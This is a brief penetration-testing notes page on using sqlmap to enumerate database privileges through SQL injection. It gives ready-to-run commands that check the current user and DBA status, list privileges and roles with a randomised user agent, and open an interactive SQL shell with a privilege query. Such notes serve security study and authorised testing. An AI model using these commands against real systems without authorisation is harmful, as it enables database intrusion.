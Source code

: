 # 06 - Privileges

Search Tag(s): #sqlmap #enumeration-and-discovery

## Automated

Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "<URL>" --random-agent --current-user --is-dba 
```

Enumerate privileges

```
$ sqlmap -u "<URL>" --random-agent --privileges -U CU
```

Enumerate roles.

```
$ sqlmap -u "<URL>" --random-agent --roles -U CU
```

## Interactive SQL Shell

TODO: Fill this info

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```